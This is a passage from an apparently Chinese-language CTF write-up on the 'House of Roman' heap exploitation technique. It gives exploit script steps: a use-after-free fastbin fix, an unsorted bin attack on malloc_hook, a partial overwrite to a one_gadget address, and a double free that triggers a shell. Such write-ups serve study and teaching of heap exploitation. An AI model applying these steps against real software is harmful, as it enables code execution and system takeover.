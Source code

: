 然後分配 `3` 個 `0x70` 的 `chunk` ，就可以拿到 `malloc_hook` 所在的那個 `chunk` .

 

```
create(0x65,0)
create(0x65,0)
create(0x65,0)
```

然後 `free` 掉 `E` ，進入 `fastbin` ，利用 `uaf` 設置 `E->fd = 0` ， 修復了 `fastbin`

```
free(15)
edit(15,p64(0x00))
info("再次生成 0x71 的 fastbin, 同時修改 fd =0, 修復 fastbin")
```

然後是 unsorted bin 攻擊，使得 malloc_hook 的值爲 main_arena+88

 

```
create(0xc8,1)
create(0xc8,1)
create(0x18,2)
create(0xc8,3)
create(0xc8,4)
free(1)
po = "B"*8
po += "\x00\x1b"
edit(1,po)
create(0xc8,1)
info("unsorted bin 使得 malloc_hook 有 libc 的地址")
```

利用 修改 `malloc_hook` 的低三個字節 ，使得 `malloc_hook` 爲 `one_gadget` 的地址

 

```
over = "R"*0x13   # padding for malloc_hook
over += "\xa4\xd2\xaf"
edit(0,over)

info("malloc_hook to one_gadget")
```

然後 `free`  兩次同一個  `chunk`  ，觸發  `malloc_printerr`  ， `getshell`

 

```
free(18)
free(18)
```



## link

https://gist.github.com/romanking98/9aab2804832c0fb46615f025e8ffb0bc

https://github.com/romanking98/House-Of-Roman

https://xz.aliyun.com/t/2316
